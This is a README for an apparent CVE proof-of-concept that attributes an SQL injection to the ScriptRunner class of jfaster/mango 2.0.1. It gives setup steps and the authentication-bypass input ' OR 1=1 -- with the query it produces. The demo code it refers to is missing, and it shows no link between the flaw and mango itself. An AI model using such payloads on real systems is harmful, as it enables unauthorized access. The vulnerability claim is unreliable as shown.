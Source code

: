 #  CVE Proof-of-Concept – SQL Injection in `ScriptRunner` (jfaster/mango)

This repository demonstrates a **SQL Injection vulnerability** in the `ScriptRunner` class of the [jfaster/mango](https://github.com/jfaster/mango) project. Using a Java Swing demo application (`LoginApp`), this PoC shows how an attacker can inject SQL, bypass authentication, and extract database content.

---

## Affected Product

- **Vendor**: jfaster  
- **Product**: mango  
- **Version**: 2.0.1  
- **Component**: `org.jfaster.mango.util.ScriptRunner`  
- **Type**: SQL Injection  
- **Impact**: Authentication Bypass, Information Disclosure, Arbitrary Query Execution  

---

##  Step-by-Step Exploit Guide

### Step 1 – Clone the Repository
```bash
git clone https://github.com/jfaster/mango.git
cd mango
```

###  Step 2 – Install and Setup Eclipse
- Download [Eclipse IDE for Java Developers](https://www.eclipse.org/downloads/)
- Install Eclipse and open it.
- Click `File → Import → Maven → Existing Maven Projects`
- Select the cloned `mango` folder and click `Finish`

###  Step 3 – Add the Vulnerable Demo (`LoginApp`)
- In Eclipse project tree, open `mango/src/test/java/org/jfaster/mango/util`
- Right-click → `New → Class`
- Name it `LoginApp`
- Paste provided `LoginApp.java` code below and save

###  Step 4 – Run the Demo
- Right-click `LoginApp.java` → `Run As → Java Application`
- A Swing login window titled **Login Form (SQL Injection Test)** will appear

###  Test Inputs

####  Valid Login
- Username: `admin`
- Password: `admin123`

#### Invalid Login
- Username: `user1`
- Password: `wrong`

####  SQL Injection Bypass
- Username: `' OR 1=1 --`
- Password: `[anything]`

This generates:
```sql
SELECT * FROM users WHERE username = '' OR 1=1 --' AND password = '';
```

The `--` disables password checking, successfully bypassing authentication.
**Need a PDF version or zipped project structure?**

- Contact for additional support.

